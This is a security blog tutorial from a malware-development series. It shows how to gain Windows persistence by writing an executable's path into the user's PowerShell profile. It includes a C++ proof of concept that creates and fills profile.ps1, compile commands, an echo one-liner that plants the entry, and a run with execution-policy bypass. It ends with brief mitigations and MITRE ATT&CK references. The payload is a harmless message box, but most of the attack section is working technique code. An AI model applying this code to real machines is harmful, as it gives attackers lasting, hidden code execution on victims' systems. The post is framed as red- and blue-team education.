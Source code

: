 ```yaml
---
title:  "Malware development: persistence - part 11. Powershell profile. Simple C++ example."
date:   2022-09-20 03:00:00 +0300
header:
  teaser: "/assets/images/70/2022-09-20_08-06.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/70/2022-09-20_08-06.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: via powershell profile.    

### powershell profile

A PowerShell profile is a powershell script that allows system administrators and end users to configure their environment and perform specified commands when a Windows PowerShell session begins.     

The PowerShell profile script is stored in the folder `WindowsPowerShell`:    

![pers](/assets/images/70/2022-09-20_08-29.png){:class="img-responsive"}    

Let's add the following code to a to the current user's profile file, that will be performed whenever the infected user enters a powershell console:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

I will demonstrate everything with a practical example and you will understand everything.    

### practical example

Firstly, create our "malicious" file:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As usually it is just "meow-meow" messagebox.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07.png){:class="img-responsive"}    

And we can run at victim machine for checking correctness:    

![pers](/assets/images/70/2022-09-20_09-03.png){:class="img-responsive"}    

Then we do this simple "trick":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > "%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

And finally, run powershell:    

```powershell
powershell -executionpolicy bypass
```

![pers](/assets/images/70/2022-09-20_08-16.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-18.png){:class="img-responsive"}    

As you can see, our malicious logic executed as expected and powershell is the parent process of our messagebox. =^..^=    

I created a simple PoC code to automate this process:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

The logic is simple, this script just create profile folder if not exists, then create profile file and update it.     

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07_1.png){:class="img-responsive"}    

And run it on the victim's machine:    

```powershell
.\pers.exe
```

![pers](/assets/images/70/2022-09-20_08-09.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-11.png){:class="img-responsive"}    

And when powershell session is started:        

![pers](/assets/images/70/2022-09-20_08-51.png){:class="img-responsive"}    

If we check it via Process Hacker:     

![pers](/assets/images/70/2022-09-20_08-53.png){:class="img-responsive"}    

`powershell.exe` is the parent process again as expected.     

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. If powershell runned without execution policy bypass mode, this persistence trick not work in my case:    

![pers](/assets/images/70/2022-09-20_09-05.png){:class="img-responsive"}    

Also there are four places you can abuse the powershell profile, depending on the privileges you have:   

```powershell
$PROFILE | select *
```

![pers](/assets/images/70/2022-09-20_09-08.png){:class="img-responsive"}    

By storing arbitrary instructions in the profile script, PowerShell profiles present several chances for code execution. To avoid relying on the user to start PowerShell, you may use a scheduled job that executes PowerShell at a certain time.      

### mitigations

Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified. Also you can avoid PowerShell profiles if not needed, for example via `-No-Profile` flag.    

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[source code on github](https://github.com/cocomelonc/2022-09-20-malware-pers-11)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
